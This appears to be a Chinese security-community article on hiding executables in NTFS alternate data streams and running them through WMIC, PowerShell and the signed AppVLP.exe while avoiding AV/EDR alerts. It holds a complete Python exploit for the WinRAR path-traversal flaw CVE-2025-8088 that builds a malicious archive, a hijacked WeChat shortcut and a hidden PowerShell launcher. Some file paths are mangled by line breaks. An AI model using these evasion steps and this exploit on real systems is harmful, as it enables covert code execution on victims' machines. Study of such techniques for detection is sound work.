# Windows隐蔽执行技巧之ADS-先知社区

> **来源**: https://xz.aliyun.com/news/19076  
> **文章ID**: 19076

---

## **备用数据流 (Alternate Data Streams - ADS)**

* 这是 NTFS 文件系统一个非常“古老”且强大的特性。它允许一个文件（主文件流）后面附加其他隐藏的数据流。
* **特点**: 附加的数据流不影响主文件的大小和内容。比如，可以将一个 `secret.exe` (1MB) 附加到一个 0 字节的 `note.txt` 上，`note.txt` 在资源管理器中看起来依然是 0 字节，但实际上它携带了 1MB 的隐藏数据。

```
//将calc.exe内容写入note.txt数据流中
type "calc.exe" > note.txt:calc.exe
```


使用type查看文件内容为空，且文件大小为0



**如何执行？**start 命令无法直接理解和执行文件的备用数据流（ADS）  
 

注意以下方法即使删除原宿主calc.exe也能照常执行，因为note.txt携带着原calc.exe数据（**备用数据流**）

### **方法1. WMIC（Windows Management Instrumentation Command-line）**

* WMI 和它的命令行工具 WMIC (Windows Management Instrumentation Command-line) 是不同的
* Windows Management Instrumentation 命令行 (WMIC) 工具正在进入从 Windows 中删除的下一阶段。 升级到 Windows 11 版本 25H2 时，将删除 WMIC。
* Windows 11版本 24H2 的新安装已默认删除 WMIC， (它只能作为可选功能) 进行安装
* 以上参考微软官方文档<https://support.microsoft.com/zh-cn/topic/windows-management-instrumentation-%E5%91%BD%E4%BB%A4%E8%A1%8C-wmic-%E4%BB%8E-windows-%E4%B8%AD%E5%88%A0%E9%99%A4-e9e83c7f-4992-477f-ba1d-96f694b8665d>
* ​**总结：**新版本Windows 11没有这个wmic命令，但可手动安装，Microsoft建议使用 PowerShell替代WMIC



```
wmic process call create "c:/note.txt:calc.exe"
```



**ProcessMonitor 视角**

```
18:23:53.4497239	cmd.exe	5508	Process Create	C:\Windows\System32\Wbem\WMIC.exe	SUCCESS	PID: 2208, Command line: wmic  process call create "c:/note.txt:calc.exe"
18:23:53.5259255	wmiprvse.exe	3368	Process Create	c:
ote.txt:calc.exe	SUCCESS	PID: 4648, Command line: c:/note.txt:calc.exe
```



**调用链**

1. (命令执行) ----> cmd.exe (PID: 5508)
2. (创建进程) ----> wmic.exe (PID: 2208)
3. (发送 WMI 请求) ----> Windows WMI Service
4. (委派任务) ----> wmiprvse.exe (PID: 3368)
5. (创建进程) ----> c:\
   ote.txt:calc.exe (PID: 4648)

**AV/EDR敏感性**

* 通过wmic执行会被检测为敏感操作



### **方法2.PowerShell（Windows Power Shell 5.1.26100.6584）**

* PowerShell 包含用于与其他技术（如 Windows Management Instrumentation (WMI)）配合使用的 cmdlet
* PowerShell 中内置了多个 WMI cmdlet，无需安装任何其他软件或模块
* 常见的 WMIC 查询可以直接替换为 PowerShell 命令
* 以上参考微软官方文档<https://techcommunity.microsoft.com/blog/windows-itpro-blog/wmi-command-line-wmic-utility-deprecation-next-steps/4039242>
* **总结：**PowerShell可调用WMI进行任务查询/执行操作

```
Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = '"c:/note.txt:calc.exe"'}
```



**ProcessMonitor 视角**

```
19:10:16.3252167	PowerShell.exe	4148	Process Create	D:\Base\apps\oh-my-posh\current\oh-my-posh.exe	SUCCESS	PID: 6052, Command line: "......"
19:10:16.4095679	wmiprvse.exe	3576	Process Create	c:
ote.txt:calc.exe	SUCCESS	PID: 2968, Command line: "c:/note.txt:calc.exe"
```



**调用链**

1. (命令执行) PowerShell.exe (PID: 4148) ----> (发送 CIM/WMI 请求)
2. (接收请求) Windows WMI Service (svchost.exe) ----> (委派任务给特权进程)
3. (执行任务) wmiprvse.exe (PID: 3576) ----> (建立进程)
4. (进程启动) ----> c:\
   ote.txt:calc.exe (PID: 2968)

**AV/EDR敏感性**

* 通过PowerShell发送合法的 CIM/WMI 请求，去操作WMI不会触发敏感操作（图片是刚刚方法1触发的日志）



### 方法3.Appvlp（微软 Office 套件附带的应用程序虚拟化程序）

* 主要工作是启动和管理这些在虚拟环境中运行的 Office 应用程序进程
* AppVLP.exe 是一个经过微软数字签名的合法文件，是 Office 正常运行的一部分
* 默认路径点

* C:\Program Files\Microsoft Office
  oot\client\appvlp.exe
* C:\Program Files (x86)\Microsoft Office
  oot\client\appvlp.exe

```
"C:\Program Files\Microsoft Office\root\Client\AppVLP.exe" C:\test
ote.txt:calc.exe
```



**ProcessMonitor 视角**

```
21:45:06.5204643	cmd.exe	37296	Process Create	C:\Program Files\Microsoft Office\root\Client\AppVLP.exe	SUCCESS	PID: 31644, Command line: "C:\Program Files\Microsoft Office\root\Client\AppVLP.exe"  C:\test
ote.txt:calc.exe
21:45:06.5800764	AppVLP.exe	31644	Process Create	C:\test
ote.txt:calc.exe	SUCCESS	PID: 26516, Command line: C:\test
ote.txt:calc.exe
21:45:06.9144972	services.exe	1452	Process Create	C:\Windows\System32\svchost.exe	SUCCESS	PID: 28236, Command line: C:\Windows\System32\svchost.exe -k wsappx -p -s ClipSVC
21:45:06.9354399	sihost.exe	12468	Process Create	C:\Program Files\WindowsApps\Microsoft.WindowsCalculator_11.2502.2.0_x64__8wekyb3d8bbwe\CalculatorApp.exe	SUCCESS	PID: 36684, Command line: "C:\Program Files\WindowsApps\Microsoft.WindowsCalculator_11.2502.2.0_x64__8wekyb3d8bbwe\CalculatorApp.exe"
21:45:07.0998258	services.exe	1452	Process Create	C:\Windows\system32\sppsvc.exe	SUCCESS	PID: 38104, Command line: C:\Windows\system32\sppsvc.exe
21:45:07.5490489	svchost.exe	28236	Process Create	C:\Windows\system32\Clipup.exe	SUCCESS	PID: 23680, Command line: C:\Windows\system32\Clipup.exe -d -k YTBHQ-NCVJ9-W8DQD-GKKKJ-7FTF9 %PROGRAMDATA%\Microsoft\Windows\ClipSvc\Install
21:45:07.5636151	Clipup.exe	23680	Process Create	C:\Windows\System32\Conhost.exe	SUCCESS	PID: 2824, Command line: \??\C:\Windows\system32\conhost.exe 0xffffffff -ForceV1
21:45:07.5927472	Clipup.exe	23680	Process Create	C:\Windows\system32\Clipup.exe	SUCCESS	PID: 24344, Command line: C:\Windows\system32\Clipup.exe -d -k YTBHQ-NCVJ9-W8DQD-GKKKJ-7FTF9 %PROGRAMDATA%\Microsoft\Windows\ClipSvc\Install -ppl C:\Windows\SystemTemp\tem49E5.tmp
```



**调用链**

1. (命令执行) cmd.exe (PID: 37296) ---> (创建进程)
2. (虚拟化程序) AppVLP.exe (PID: 31644) ----> (创建进程)
3. (进程启动) C: est\
   ote.txt:calc.exe (PID: 26516)
4. (系统服务管理器) services.exe (PID: 1452) ----> (启动许可证服务)
5. (服务宿主) svchost.exe (PID: 28236, 托管 ClipSVC) ----> (创建许可证工具进程)
6. (许可证工具) Clipup.exe (PID: 23680)

**AV/EDR敏感性**

* 通过微软的AppVLP.exe去执行备用数据流并不会触发敏感操作



**如何查看备用数据流？**普通的type/cat命令并不能查看到数据流

```
CMD环境
# /R参数会显示文件的备用数据流
dir /R
# more命令读取 calc.exe 数据流
more < c:
ote.txt:calc.exe
```





```
PowerShell环境
# -Stream 参数可以列出一个文件拥有的所有数据流
Get-Item -Path .
ote.txt -Stream *
# -Stream读取指定数据流
Get-Content -Path .
ote.txt -Stream calc.exe
```





**局限性？传输是个难题**

* **仅限 NTFS 文件系统**：ADS 是 Windows NT 文件系统 (NTFS) 的一个特性。一旦文件被移动或复制到**非 NTFS** 的文件系统中，所有备用数据流都会被**立即剥离**（复制到非NTFS的U 盘、SD 卡、Linux、Mac等）
* **大多数应用程序和操作“无视”ADS**：命令行 copy 命令：默认不复制备用数据流，使用特定参数 `/B`（二进制模式），其他可用命令如xcopy、robocopy
* **文件编辑与保存**：打开一个带有 ADS 的文件并进行编辑保存后，**通常只会保存主数据流**，导致原有的 ADS 全部丢失。
* **网络传输中丢失**：上传文件/发送电子邮件/ZIP 格式都会丢失ADS

**局域网传输ADS(Alternate Data Streams - ADS)**

**1.通过局域网共享 (SMB GUI环境)**

在目标机器（NTFS文件系统）开启SMB且有权限写入的情况下，可以直接复制ADS至对方目录





**2.通过局域网共享 (SMB cmd环境)**

**robocopy命令将文件数据从一个位置复制到另一个位置**

微软文档：<https://learn.microsoft.com/zh-cn/windows-server/administration/windows-commands/robocopy>

```
C:\test>robocopy C:\test \192.168.10.105\ads note.txt /COPY:DATS

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Windows 的可靠文件复制
-------------------------------------------------------------------------------

  开始时间: 2025年9月28日 23:42:58
        源: C:\test\
      目标: \192.168.10.105\ads\

      文件: note.txt

      选项: /DCOPY:DA /COPY:DATS /R:1000000 /W:30

------------------------------------------------------------------------------

                           1    C:\test\
100%        新文件                     0        note.txt

------------------------------------------------------------------------------

                  总数        复制        跳过       不匹配        失败        其他
       目录:         1         0         1         0         0         0
       文件:         1         1         0         0         0         0
       字节:         0         0         0         0         0         0
       时间:   0:00:00   0:00:00                       0:00:00   0:00:00
   已结束: 2025年9月28日 23:42:58


```





**xcopy复制文件和目录，包括子目录**

微软文档：[**https://learn.microsoft.com/zh-cn/windows-server/administration/windows-commands/xcopy**](https://learn.microsoft.com/zh-cn/windows-server/administration/windows-commands/xcopy)

```
C:\test>xcopy C:\test
ote.txt \192.168.10.105\ads
C:\test
ote.txt
复制了 1 个文件
```



**互联网传输ADS(Alternate Data Streams - ADS)**

**1.压缩包归档工具RAR携带**

这个方法高度依赖 WinRAR 本身，且归档格式必须是RAR

```
//采用命令压缩 a是添加文件 -os在压缩时包含NTFS数据流 
C:\Program Files\WinRAR>Rar.exe a -os C:\test
ote_ads.rar C:\test
ote.txt

RAR 7.13 x64    版权所有 (c) 1993-2025 Alexander Roshal    28 七月 2025
已注册给 State Grid Corporation Of China


正在创建 压缩文件 C:\test
ote_ads.rar

正在添加  C:\test
ote.txt                                      确定
已完成

C:\Program Files\WinRAR>
```

GUI界面下把保存文件流数据打勾即可



**如何解压？**

Winrar GUI直接解压会触发ADS规则



7zip GUI直接解压note.txt会无效果，因为它会单独显示note.txt:calc.exe备用数据流



如果单独解压note.txt:calc.exe也会触发ADS规则



使用Winrar 命令行版试试

```
#x是解压的意思 保留压缩包内的完整目录结构 （如果不保留目录就用e选项）
# Rar.exe x C:\ADS
ote_ads.rar C:\ADS

RAR 7.13 x64   版权所有 (c) 1993-2025 Alexander Roshal   28 七月 2025
试用版             输入“rar -?”获得帮助


正在从 C:\ADS
ote_ads.rar 解压

正在忽略    C:\ADS\test                                               确定  确定
全部正常
```

```
 Administrator on  C:/ADS/test
 # dir /R
 驱动器 C 中的卷没有标签。
 卷的序列号是 EACF-0D0F

 C:\ADS\test 的目录

2025/09/29  00:12    <DIR>          .
2025/09/29  00:12    <DIR>          ..
2025/09/28  23:32                 0 note.txt
                             49,152 note.txt:calc.exe:$DATA
               1 个文件              0 字节
               2 个目录 36,694,020,096 可用字节

```



可以看到并没有新的规则被触发


再试试自解压环境

```
C:\Program Files\WinRAR>Rar.exe a -os -sfx C:\test
ote_ads.exe C:\test
ote.txt

RAR 7.13 x64    版权所有 (c) 1993-2025 Alexander Roshal    28 七月 2025

正在创建 压缩文件 C:\test
ote_ads.exe

正在添加  C:\test
ote.txt                                      确定
已完成
```





同样没有新规则触发



如何在解压后自动执行备用数据流ADS？有请CVE

**CVE-2025-8088｜WinRAR 路径遍历漏洞**

* **影响版本**：WinRAR 7.12及以下版本
* **威胁等级**：高危
* **漏洞说明**：通过特殊的路径构造，绕过WinRAR的路径验证，将恶意文件释放到系统关键目录（例如启动/lnk目录）。

**思路**

由于自启动目录AV都看得很死，所以基本上一写就告警，这里另辟蹊径采取一种**有环境要求**的方法（不完善）

* 目标WinRAR 7.12及以下版本
* 使用Extract Here提取文件（手动提取会触发ADS告警）
* 有Office 套件
* 桌面目录可控/微信lnk可控
* 解压目录在桌面

**复现环境**

微信lnk

```
C:\Windows\System32\cmd.exe /c start "" "C:\Progra~1\Tencent\Weixin\Weixin.exe" & "C:\Program Files\Microsoft Office\root\Client\AppVLP.exe" C:\Users\Administrator\Desktop
ote.txt:calc.exe
```



CVE-2025-8088脚本

```
import os
import shutil
import subprocess
import struct
import zlib
from pathlib import Path

# RAR5 文件格式的魔术数字（签名），用于识别文件类型
RAR5_SIG = b"Rar!\x1A\x07\x01\x00"
# RAR5 文件头中的标志位
HFL_EXTRA = 0x0001 # 表示存在额外数据区
HFL_DATA  = 0x0002 # 表示块包含文件数据

class WinRARExploit:
    def __init__(self):
        # 初始化时，自动查找系统中 WinRAR 的路径
        self.winrar_path = self._find_winrar()
    
    def _find_winrar(self) -> str | None:
        """在常见安装位置查找 rar.exe。"""
        paths = [
            r"C:\Program Files\WinRAR\rar.exe",
            r"C:\Program Files (x86)\WinRAR\rar.exe"
        ]
        for path in paths:
            if os.path.exists(path):
                print(f"[+] 找到 WinRAR: {path}")
                return path
        print("[-] 未在默认路径找到 WinRAR。")
        return None
    
    def create_malicious_archive(self, payload_path: str, output_path: str, decoy_path: str) -> bool:
        try:
            # 检查关键文件和程序是否存在
            if not os.path.exists(payload_path):
                print(f"[-] 错误: Payload 文件不存在于 {payload_path}")
                return False
            
            if not self.winrar_path:
                print("[-] 错误: 无法继续，因为未找到 rar.exe。")
                return False
            
            # 调用核心漏洞利用逻辑
            return self._create_ads_exploit(payload_path, output_path, decoy_path)
                
        except Exception as e:
            print(f"[-] 创建过程中发生致命错误: {e}")
            return False
    
    def _run(self, cmd: str, cwd: Path | None = None, check=True):
        """一个辅助函数，用于执行命令行命令并捕获输出。"""
        cp = subprocess.run(cmd, shell=True, cwd=str(cwd) if cwd else None,
                            stdout=subprocess.PIPE, stderr=subprocess.STDOUT, text=True, encoding='utf-8', errors='ignore')
        if check and cp.returncode != 0:
            raise RuntimeError(f"命令执行失败 ({cp.returncode}): {cmd}
{cp.stdout}")
        return cp
    
    def _ensure_file(self, path: Path, default_text: str) -> None:
        if path.exists():
            return
        path.parent.mkdir(parents=True, exist_ok=True)
        path.write_text(default_text, encoding="utf-8")
        print(f"[+] 已创建临时诱饵文件: {path}")
    
    def _attach_ads_placeholder(self, decoy_path: Path, payload_path: Path, placeholder_len: int) -> str:
        placeholder = "X" * placeholder_len
        ads_path = f"{decoy_path}:{placeholder}"
        data = Path(payload_path).read_bytes()
        with open(ads_path, "wb") as f:
            f.write(data)
        print("[+] 已将 Payload 作为 ADS 附加到诱饵文件上。")
        return placeholder
    
    def _build_base_rar_with_streams(self, rar_exe: str, decoy_path: Path, base_out: Path) -> None:
        if base_out.exists():
            base_out.unlink()
        self._run(f'"{rar_exe}" a -ep -os "{base_out}" "{decoy_path}"')
        print(f"[+] 已创建包含 ADS 的临时 RAR 文件: {base_out}")
    
    def _get_vint(self, buf: bytes, off: int) -> tuple[int, int]:
        val, shift, i = 0, 0, off
        while True:
            if i >= len(buf): raise ValueError("vint 数据被截断")
            b = buf[i]; i += 1
            val |= (b & 0x7F) << shift
            if (b & 0x80) == 0: break
            shift += 7
            if shift > 70: raise ValueError("vint 太大")
        return val, i - off
    
    def _patch_placeholder_in_header(self, hdr: bytearray, placeholder_utf8: bytes, target_utf8: bytes) -> int:
        needle = b":" + placeholder_utf8
        count = 0
        i = hdr.find(needle)
        if i > -1:
            start = i + 1
            old_len = len(placeholder_utf8)
            # 确保替换内容不会超出占位符长度
            if len(target_utf8) > old_len:
                raise ValueError("目标路径比占位符长。请增加占位符长度。")
            
            # 执行替换
            hdr[start:start+len(target_utf8)] = target_utf8
            # 如果新路径比旧的短，用空字节填充剩余部分
            if len(target_utf8) < old_len:
                hdr[start+len(target_utf8):start+old_len] = b"\x00" * (old_len - len(target_utf8))
            count += 1
        return count
    
    def _rebuild_all_header_crc(self, buf: bytearray) -> int:
        sigpos = buf.find(RAR5_SIG)
        if sigpos < 0:
            raise RuntimeError("不是 RAR5 压缩包 (缺少签名)。")
        
        pos = sigpos + len(RAR5_SIG)
        blocks = 0
        while pos + 4 <= len(buf):
            block_start = pos
            try:
                header_size, hsz_len = self._get_vint(buf, block_start + 4)
            except Exception:
                break # 无法解析，到达文件末尾
            
            header_start = block_start + 4 + hsz_len
            header_end   = header_start + header_size
            if header_end > len(buf): break

            # 计算从块大小到头结束这部分数据的 CRC32
            region_to_crc = buf[block_start + 4:header_end]
            crc = zlib.crc32(region_to_crc) & 0xFFFFFFFF
            # 将新的 CRC 值写回文件
            struct.pack_into("<I", buf, block_start, crc)
            
            # --- 解析头部以找到下一个块的位置 ---
            i = header_start
            _htype, n1 = self._get_vint(buf, i); i += n1
            hflags, n2 = self._get_vint(buf, i); i += n2
            if (hflags & HFL_EXTRA) != 0:
                _extrasz, n3 = self._get_vint(buf, i); i += n3
            
            datasz = 0
            if (hflags & HFL_DATA) != 0:
                datasz, n4 = self._get_vint(buf, i); i += n4
            
            pos = header_end + datasz
            blocks += 1
        return blocks
    
    def _build_traversal_name(self, drop_abs_dir: Path, payload_name: str, max_up: int = 8) -> str:
        # 去掉盘符，例如 "C:\Users" -> "Users"
        tail = str(drop_abs_dir.relative_to(drop_abs_dir.anchor))
        # 组合成相对路径
        rel = ("..\" * max_up) + tail + "\" + payload_name
        return rel
    
    def _patch_archive_placeholder(self, base_rar: Path, out_rar: Path, placeholder: str, target_rel: str) -> None:
        data = bytearray(base_rar.read_bytes())
        placeholder_utf8 = placeholder.encode("utf-8")
        target_utf8      = target_rel.encode("utf-8")

        # 遍历所有文件头，替换占位符
        total_patched = self._patch_placeholder_in_header(data, placeholder_utf8, target_utf8)
        
        if total_patched == 0:
            raise SystemExit("[-] 错误: 在 RAR 头中未找到占位符。请确保使用了 -os 参数。")
        print(f"[+] 已修补 {total_patched} 处占位符。")

        # 重建所有头的 CRC
        blocks = self._rebuild_all_header_crc(data)
        print(f"[+] 已为 {blocks} 个头块重新计算 CRC。")

        out_rar.write_bytes(data)
        print(f"[+] 已写入最终修补后的压缩包: {out_rar}")
    
    def _create_ads_exploit(self, payload_path: str, output_path: str, decoy_path: str) -> bool:
        decoy_path_obj = Path(decoy_path)
        payload_path_obj = Path(payload_path)
        output_rar = Path(output_path)
        base_rar = output_rar.with_suffix(".base.rar")
        
        # 1. 确保诱饵文件存在
        self._ensure_file(decoy_path_obj, "这是一个无害的 decoy 文件。
This is a harmless decoy file.")
        
        # 2. 定义 payload 的目标释放目录（例如，所有用户的启动目录）
        username = os.getenv('USERNAME', 'Public') # 尝试获取当前用户名，失败则用 Public
        drop_abs_dir = Path(os.path.expandvars(r"%SystemDrive%\Users\Public\Desktop"))
        print(f"[+] 设定目标目录: {drop_abs_dir}")
        
        # 3. 构建包含路径穿越的目标文件名
        injected_target = self._build_traversal_name(drop_abs_dir, payload_path_obj.name)
        print(f"[+] 将要注入的流名称为: {injected_target}")
        
        # 4. 确定占位符长度，确保比目标路径长
        ph_len = max(len(injected_target.encode('utf-8')) + 16, 128)
        
        # 5. 将 payload 作为 ADS 附加到诱饵文件上，ADS流名称为占位符
        placeholder = self._attach_ads_placeholder(decoy_path_obj, payload_path_obj, ph_len)
        
        # 6. 创建包含这个带 ADS 的诱饵文件的临时压缩包
        self._build_base_rar_with_streams(self.winrar_path, decoy_path_obj, base_rar)
        
        # 7. 在临时压缩包中，将占位符路径替换为真实的、带路径穿越的恶意路径，并修复CRC
        self._patch_archive_placeholder(base_rar, output_rar, placeholder, injected_target)
        
        # 8. 清理临时文件
        if base_rar.exists():
            try:
                base_rar.unlink()
            except OSError:
                pass # 文件可能被占用，忽略错误
        
        print(f"
[V] 创建成功!")
        print(f"    - 输出文件: {output_rar.resolve()}")
        print(f"    - 当用户解压 '{decoy_path_obj.name}' 时,")
        print(f"    - Payload '{payload_path_obj.name}' 将会被释放到: {drop_abs_dir}")
        
        return output_rar.exists()

# ==============================================================================
# 主函数入口
# ==============================================================================
def main():
    """
    脚本的主执行函数。
    """
    print("--- WinRAR ADS 路径穿越漏洞利用脚本 ---")
    
    # --- 配置区域 ---
    # 请在这里修改你要使用的文件路径
    
    # 1. 指定你的 payload 文件 (例如: calc.exe, nc.exe, 或者一个 .lnk 快捷方式)
    payload_file = r"c:\test\微信.lnk"
    
    # 2. 指定一个用于伪装的诱饵文件 (如果文件不存在，脚本会自动创建一个)
    decoy_file = r"c:\test
ote.txt"
    
    # 3. 指定最终生成的恶意 RAR 文件的名字
    output_file = r"C:\test\exploit.rar"
    
    # --- 执行区域 ---
    
    # 创建漏洞利用工具的实例
    exploit = WinRARExploit()
    
    # 检查是否找到了 WinRAR
    if not exploit.winrar_path:
        return # 如果没找到 WinRAR，则退出

    # 执行创建过程
    exploit.create_malicious_archive(
        payload_path=payload_file,
        output_path=output_file,
        decoy_path=decoy_file
    )

if __name__ == "__main__":
    # 当脚本被直接运行时，调用 main 函数
    main()
```

note.txt



成品



使用Extract Here提取文件时会触发payload劫持微信lnk



打开微信lnk后会触发微信与计算器（由于是cmd启动的所以会有一闪而过的黑框）



这里前期其实想的是powershell来劫持微信lnk，但是lnk的最长能定义为 260 个字符，如果需要解限制就要更改注册表项或使用组策略工具，所以下面这段payload就搁浅了，参考微软文档<https://learn.microsoft.com/zh-cn/windows/win32/fileio/maximum-file-path-limitation?tabs=registry>

```
PS C:\Users\12410\Desktop> powershell.exe -WindowStyle Hidden -Command "& {Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = 'C:/test/note.txt:calc.exe'}; Start-Process -FilePath 'C:\Program Files\Tencent\Weixin\Weixin.exe'}"

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
    49096           0
```
